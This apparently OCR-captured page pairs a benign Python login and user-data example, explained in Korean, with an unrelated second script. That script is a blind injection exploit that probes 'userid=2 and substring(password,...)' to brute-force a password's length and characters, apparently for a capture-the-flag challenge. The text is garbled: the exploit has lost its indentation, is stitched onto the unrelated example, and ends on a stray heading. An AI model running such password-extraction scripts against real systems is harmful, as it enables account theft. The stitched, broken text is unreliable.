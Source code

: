 ```python
import requests

def login(username, password):
    url = "http://example.com/login"
    payload = {
        "username": username,
        "password": password
    }
    response = requests.post(url, data=payload)
    return response.text

def get_user_data(username):
    url = f"http://example.com/user/{username}"
    response = requests.get(url)
    return response.text

def main():
    username = input("Enter username: ")
    password = input("Enter password: ")

    login_response = login(username, password)
    if "Login successful" in login_response:
        user_data = get_user_data(username)
        print(user_data)
    else:
        print("Login failed")

if __name__ == "__main__":
    main()
```

이 예제는 파이썬을 사용하여 웹 사이트에 로그인하고 사용자 데이터를 가져오는 간단한 기능을 보여줍니다. `login` 함수는 주어진 사용자 이름과 비밀번호를 사용하여 로그인 요청을 보내고, `get_user_data` 함수는 주어진 사용자 이름을 사용하여 사용자 데이터를 가져옵니다. `main` 함수에서는 사용자로부터 사용자 이름과 비밀번호를 입력받고, 로그인이 성공하면 사용자 데이터를 출력합니다. 로그인이 실패하면 "Login failed"를 출력합니다.
```python
import requests, string

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
if ("TRUE_COND" in r.text):
l = i
break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
for al in alphabet:
r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
if ("TRUE_COND" in r.text):
flag += al
print("[+] Flag: " + flag)
break
```
### 파일 읽기
